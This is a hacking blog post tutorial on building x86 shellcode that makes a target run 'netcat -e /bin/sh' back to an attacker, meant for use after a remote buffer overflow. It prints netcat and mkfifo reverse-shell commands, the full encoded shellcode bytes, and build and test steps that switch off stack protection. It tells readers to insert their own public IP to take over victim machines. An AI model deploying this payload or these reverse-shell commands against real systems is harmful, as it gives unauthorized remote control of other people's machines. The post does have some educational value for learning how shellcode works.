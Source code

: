 ```yaml
---
layout: post
title: "How to: Shellcode to reverse bind a shell with netcat"
description: "How to write an x86 shellcode to take over a remote machine"
category: "Hacking"
tags: ["System Security", "Hacking", "Shellcode"]
---
```

{% include JB/setup %}

Imagine you found a vulnerability in a web server and decided to take over that machine to do your dirty deeds, what do you do? Well, for starters, you have to figure out how to exploit the vulnerability at hand. In this article I will talk only about [buffer overflows](https://en.wikipedia.org/wiki/Buffer_overflow) abused to inject a [shellcode](https://en.wikipedia.org/wiki/Shellcode) and execute arbitrary commands. There can be other ways to gain access to a vulnerable remote machine, like incorrect parsing of cgi-bin requests, XSS attacks through unescaped html strings, SQL injection, etc etc.

Most of all, what I want to focus on is the **remote** nature of the attack. Local buffer overflows are easy and there are countless of other articles with detailed explanations on how to perform them (like [this](http://pointerless.wordpress.com/2012/02/26/strcpy-security-exploit-how-to-easily-buffer-overflow/) shameless self-plug from my old blog). Remote buffer overflows, though, are a whole other deal. Most of the time you are left stumbling in the dark trying to understand if an exploit is even possible, how the memory of your target machine could be laid out, if they have [ASLR](https://en.wikipedia.org/wiki/ASLR) and stack guards... and on top of that you cannot just spawn a shell and call it a day. What good is it to just spawn a local shell on a remote machine, if you can't log into it?

### The reverse bind of a remote shell

There are several ways to obtain access to a local shell with a remote connection. The most common of all is to open a known port with a tcp socket and bind its stdout/stderr/stdin to a newly forked shell. This way we can connect from our computer with a simple netcat command. However, this doesn't work well most of the time: most of the public-facing servers out there have only a few number of ports open to the outside world (like http(s), ftp, smtp, etc) and the remaining inbound requests are usually filtered and dropped by iptables or firewalls.

The solution to this is to use a reverse bind for your local shell. A reverse bind is a simple operation that turns the client into a server and vice-versa. Originally, you'd have opened a port on the target and waited for inbound connections (from your attacking machine). Reverse this and you'll have an open connection on your own machine waiting for the target machine to connect, this turns the attacker into the receiver waiting for some poor victim to fall into the trap.

Now, there are several shellcodes around the web for this specific type of attack, you can freely browse some of them at the [shell-storm database](http://repo.shell-storm.org/shellcode/). To me, some of them worked and some others didn't but it's always a good learning experience so check it out. The topic for today will be how to abuse netcat to do most of the job for us, I looked around the shallow web (first results of google searches) and couldn't find any example for this so... here it is!


### The netcat -e command

We will assume our target has netcat installed on the machine. This is very specific for this type of attack and if the target is even a bit concerned about security, there probably won't be any, but for the sake of learning let's assume this attack is applicable.

Traditional netcat and its [GNU counterpart](http://netcat.sourceforge.net/) have a special parameter that can be passed to the binary, the -e flag. This flag will execute anything and bind it to the connection. The traditional netcat also has a -c flag which, for our purposes, does exactly the same, but since GNU-netcat doesn't have it, we'll just use -e.

If we bind /bin/sh to netcat with -e, we are able to effectively pass our shell to the remote connection and have whoever is listening on the other side snoop into our machine (be careful when doing this!). Let's give it a try:
* In a shell on your machine run `netcat -lvp 9999` to begin listening to inbound connections. This command should be your base operation for any reverse bind shell attack, it can be your life saver.
* In a separate shell, run `netcat -e /bin/sh 127.0.0.1 9999`

You should have received a connection in the first shell you opened. Go ahead and type some shell commands like `ls` or `whoami` to confirm that it is working. You can close the connection (from any end) with `Ctrl-c` when you're done with it.

**Note**: The openbsd version of the netcat command has no -e/-c flags. As an alternative (taken from their man page) you can execute the following command: `rm -f /tmp/f; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 9999 > /tmp/f` This, however, is very verbose, error prone and harder to run from an injected shellcode so if your target is using this version maybe it's better to use a different shellcode.

Great! Now we know what command we want to execute on the target machine, we just need to find a way to cram it into some assembly and compile it into our payload.

### The assembly code

This is the assembly required to run our shellcode. I will explain in details how it works. (Warning: it's **Intel** syntax)

{% gist 9852347 %}

We want to execute the equivalent of the following C code:
`char *command[] = {"/bin/netcat", "-e", "/bin/sh", "127.127.127.127", "9999", NULL};`<br/>`
execve(command[0], command, NULL);`

To do so, we set up the following command string: `"/bin/netcat#-e#/bin/sh#127.127.127.127#9999#AAAABBBBCCCCDDDDEEEEFFFF"`

Ignoring the letters at the end (which I will explain later), you can see that our multiple strings are just being packed all together into a single one, separated with a `#` character. This is because we cannot have null characters inside the actual shellcode. If this were to happen, we'd end up with an incorrectly-parsed string from our victim's machine. This is very common in shellcodes so I won't get in too many details.

Regardless of where we are in memory when we run this code, we need to identify the address of the command string, so at line 1 we jump to the `forward` label (line 26) and then we immediately call the `back` label. The call instruction in assembly is used to call a function, what this does is push the return address (the address of the instruction right after the call) on top of the stack. But the address of the next instruction is exactly the address of our command string! (line 28)

Back to line 3, we pop the address into the esi register. Then we zero out the eax register (remember, we cannot just `mov eax,0` because zeroes are not allowed in our code) and start performing a patching operation to split the command string into multiple individual strings directly in memory.

Here's a picture to help explaining the following process:
![String in Memory](http://www.morgawr.eu/p/1396093148.png)

What we are doing between line 5 and line 9 is moving individual zeros (taken from the al/eax register, which we just zeroed with xor) into each location where an individual string in our command ends. This is effectively substituting `#` with `\0`. After that, we want an array of addresses to our strings (terminated with a NULL) to pass as second argument of execve(), this is where the leading string of repeating letters comes into play. In memory, arrays elements are stored in contiguous locations, so we can abuse this contiguous location of memory to store each address of each individual string.

At line 10 we move the address of `/bin/netcat` into AAAA, then we proceed from line 11 to line 18 to do the same for each piece of string. Importantly, at line 19 we store NULL (from eax) into FFFF to effectively terminate our array.

At line 20 we prepare the execve system call. Syscalls called with `int 0x80` expect arguments to be inside the registers so we store `0xb`(syscall number of execve) inside eax, esi(the address of "/bin/netcat") inside ebx, our array of strings into ecx and then a NULL in edx. We then trigger the system call and if everything went according to plan, our shellcode should give us a nice reverse shell.

#### The devil is in the details

If you notice, the shellcode uses 127.127.127.127 as IP address and 9999 as port. I chose that IP because it's a local IP (your own machine) with nice and even numbers. Usually you'll want to replace that with your own machine's public-facing IP, what you need to take care of is fixing all the offsets in the assembly code (as shown in the picture) if the length of your IP is different. This is often a bothersome and error-prone operation so be careful when re-building the shellcode, be sure to always test it locally to make sure it works.

### Compiling and testing the shellcode

You should now have the assembly code stored in a file that we'll call `shell.asm`. To compile it into binary/object code, we'll use the following nasm command: `nasm -felf32 -o shell.o shell.asm`

We can inspect the binary with objdump -D and we'll see our assembly code with the relative opcodes. We want to extract those opcodes and put them into a C string that we can execute from memory. There is a fancy one-liner script that can do that for us, taken from [here](http://www.commandlinefu.com/commands/view/12151/get-shellcode-of-the-binary-using-objdump):

`for i in $(objdump -d shell.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

This will print a string that looks like this: `"\xeb\x3c\x5e\x31\xc0\x88\x46\x0b\x88\x46\x0e\x88\x46\x16\x88\x46\x26\x88\x46\x2b\x89\x76\x2c`<br>
`\x8d\x5e\x0c\x89\x5e\x30\x8d\x5e\x0f\x89\x5e\x34\x8d\x5e\x17\x89\x5e\x38\x8d\x5e\x27\x89\x5e`<br>
`\x3c\x89\x46\x40\xb0\x0b\x89\xf3\x8d\x4e\x2c\x8d\x56\x40\xcd\x80\xe8\xbf\xff\xff\xff\x2f\x62`<br>
`\x69\x6e\x2f\x6e\x65\x74\x63\x61\x74\x23\x2d\x65\x23\x2f\x62\x69\x6e\x2f\x73\x68\x23\x31\x32`<br>
`\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x2e\x31\x32\x37\x23\x39\x39\x39\x39\x23\x41\x41\x41\x41`<br>
`\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44\x45\x45\x45\x45\x46\x46\x46\x46"`

Now let's create a small C program that can test our shellcode:

{% gist 9853525 %}

Let's compile this, we'll need to set the proper compilation flags to turn off security measures that would just make us segfault (they are usually enabled by default nowadays, rightfully so).

`gcc shellcode.c -fno-stack-protector -z execstack -o shellcode`

Spawn another shell with `netcat -lvp 9999` and run `./shellcode`. If all went well, you should have your reverse shell running and the exploit worked.

![Shellcode worked](http://www.morgawr.eu/p/1396096315.png)

This is all for now, thank you for reading, happy hacking!

Cheers, <br>
Morg.
